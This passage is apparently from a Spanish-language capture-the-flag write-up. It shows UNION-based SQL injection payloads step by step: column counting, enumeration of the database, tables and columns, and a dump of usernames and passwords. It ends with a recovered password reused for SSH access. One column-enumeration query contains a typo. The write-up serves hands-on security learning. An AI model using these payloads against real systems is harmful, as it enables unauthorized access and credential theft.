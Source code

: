 ![6]

Vemos que logramos acceder al servidor. Ahora, nuestro primer paso en una inyección SQL es siempre ver el número de columnas de la tabla para encontrar un parámetro del que nos podamos aprovechar. Esto ya se ha explicado con anterioridad en otras máquinas, por lo que no nos detendremos a explicar detalladamente cada query.

Primero hacemos el UNION SELECT con varios números ascendentes (1,2,3...) hasta encontrar una respuesta que no devuelva error en el servidor. En este caso, vemos que la tabla contiene 4 columnas y que el parámetro 2 es vulnerable.

    ' union select 1,2,3,4-- -

![7]

Ahora sustituimos el 2 en la consulta con los datos que deseemos obtener, por ejemplo, el nombre de la base de datos:

    ' union select 1,database(),3,4-- -

![8]

La base de datos se llama **website**. Ahora obtenemos las tablas con las que cuenta dicha DB:

    ' union select 1,group_concat(table_name),3,4 from information_schema.tables where table_schema='website'-- -

Nota: El group_concat, recordemos, nos ayuda a agrupar todos los resultados que obtengamos sin necesidad de tener que listar uno por uno (con limit 1,1 por ejemplo) si es que llega a haber más de una tabla en la base de datos. En este caso solo hay una llamada **users**.

![9]

Ahora enumeramos las columnas de dicha tabla:

    ' union select 1,group_concat(column_name),3,4 from information_schema.columns where table_name_='users'-- -

Esta vez la consulta devuelve varias columnas, he ahí la importancia del group_concat. Vemos dos que son de nuestro interés: la de **username** y la de **password**:

![10]

Finalmente, listamos el contenido de ambas columnas para obtener los datos guardados:

    ' union select 1,group_concat(username,0x3a,password),3,4 from users-- -

![11]

Nota: Recuerda que la página web devuelve el resultado de la consulta seguido de dos signos de admiración. Ten mucho cuidado de no considerarlos como parte de la contraseña, la cual es:

    My_P@ssW0rd123

# Acceso por SSH
Si probamos estas credenciales en el servicio SSH, veremos que son válidas y ahora hemos ganado acceso al sistema.
